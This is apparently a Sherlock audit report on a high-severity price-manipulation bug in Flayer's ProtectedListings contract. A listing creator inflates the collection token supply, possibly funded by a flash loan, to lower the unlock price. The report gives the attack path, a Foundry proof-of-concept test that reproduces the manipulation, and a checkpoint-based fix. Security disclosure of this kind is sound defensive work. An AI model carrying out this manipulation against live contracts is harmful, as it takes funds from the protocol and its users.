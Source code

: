 Sharp Blonde Camel

High

# Listing creator can manipulate the unlock price

### Summary

The [`utilizationRate`](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/ProtectedListings.sol#L273) function calculates the utilisation rate for a particular collection. Then, it's used to calculate current compound factor that directly influences the unlock price. The **listing creator** is able to inflate the total supply of collection token, decreasing the utilisation rate and, in the end, decrease the unlock price.

### Root Cause

In [`ProtectedListings.sol#L273`](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/ProtectedListings.sol#L273) the utilisation rate is calculated using the current total supply of the collection token supply that can be easily increased by depositing collection tokens to the locker.


### Internal pre-conditions

The listing creator has to have collection tokens initially or there should be a liquidity to buy collateral tokens and redeem them using flash loan.

### External pre-conditions

None

### Attack Path

If the listing creator does not have collection tokens, they:
1. Take a flash loan (It will be paid after the whole process is finished).
2. Buy collateral tokens on the pool.
3. Redeem collection tokens using collateral token.

Then the listing creator:
1. Deposits all collection tokens to the locker.
2. Unlocks the listing with lower price.
3. Redeems all collection tokens.

If there was a flash loan, they deposit collection tokens, swap back the collateral token and pay the flash loan.

### Impact

Decreasing the unlock price.

### PoC

Run this test as part of `ProtectedListings.t.sol`.

```solidity
    function test_abuser_CanUnlockProtectedListingForCheaperPrice() public {

        uint _tokenId = 10001;
        uint96 _tokensTaken = uint96(0.95 ether);

        // Ensure that we don't get a token ID conflict
        _assumeValidTokenId(_tokenId);

        // Set the amount of tokens taken as variable
        vm.assume(_tokensTaken >= 0.1 ether);
        vm.assume(_tokensTaken <= 1 ether - protectedListings.KEEPER_REWARD());

        // Set the owner to one of our test users (Alice)
        address payable _owner = users[0];

        // Capture the amount of ETH that the user starts with so that we can compute that
        // they receive a refund of unused `msg.value` when paying tax.
        uint startBalance = payable(_owner).balance;

        for (uint256 i = _tokenId; i < _tokenId + 10; i++) {
            // Mint our token to the _owner and approve the {Listings} contract to use it
            erc721a.mint(_owner, i);

            // Create our listing
            vm.startPrank(_owner);
            erc721a.approve(address(protectedListings), i);
            _createProtectedListing({
                _listing: IProtectedListings.CreateListing({
                    collection: address(erc721a),
                    tokenIds: _tokenIdToArray(i),
                    listing: IProtectedListings.ProtectedListing({
                        owner: _owner,
                        tokenTaken: _tokensTaken,
                        checkpoint: 0
                    })
                })
            });

            // Confirm the remaining collateral against the listing. We can safely cast the
            // `getListingCollateral` to a uint as we know it will be a positive number in this
            // test case.
            uint expectedCollateral = 1 ether - protectedListings.KEEPER_REWARD() - _tokensTaken;
            assertEq(uint(protectedListings.getProtectedListingHealth(address(erc721a), i)), expectedCollateral);

            // Approve the ERC20 token to be used by the listings contract to cancel the listing
            locker.collectionToken(address(erc721a)).approve(address(protectedListings), _tokensTaken);

            // Confirm that the user has paid no taxes yet from their ETH balance
            assertEq(payable(_owner).balance, startBalance, 'Incorrect startBalance');

            // Confirm that the ERC20 is held by the user from creating the listing
            assertEq(
                locker.collectionToken(address(erc721a)).balanceOf(_owner),
                _tokensTaken * (i - _tokenId + 1),
                'Incorrect owner collectionToken balance before unlock'
            );
            vm.stopPrank();

        }

        vm.warp(block.timestamp + 10000);

        // Give more tokens to user

        for (uint256 i = _tokenId + 10; i < _tokenId + 20; i++) {
            // Mint our token to the _owner and approve the {Listings} contract to use it
            erc721a.mint(_owner, i);
        }

        // Not manipulated price
        console.log(protectedListings.unlockPrice(address(erc721a), _tokenId));


        vm.startPrank(_owner);
        for (uint256 i = _tokenId + 10; i < _tokenId + 20; i++) {
            erc721a.approve(address(locker), i);
            locker.deposit(address(erc721a), _tokenIdToArray(i));
        }
        vm.stopPrank();

        // Manipulated price
        console.log(protectedListings.unlockPrice(address(erc721a), _tokenId));

        vm.startPrank(_owner);
        locker.collectionToken(address(erc721a)).approve(address(locker), type(uint256).max);
        for (uint256 i = _tokenId + 10; i < _tokenId + 20; i++) {
            locker.redeem(address(erc721a), _tokenIdToArray(i));
        }
        vm.stopPrank();

    }
```

### Mitigation

Make sure users cannot inflate the utilization rate instantly. Consider using checkpoints for balances and `totalSupply`, select the values from the block prior to the current block.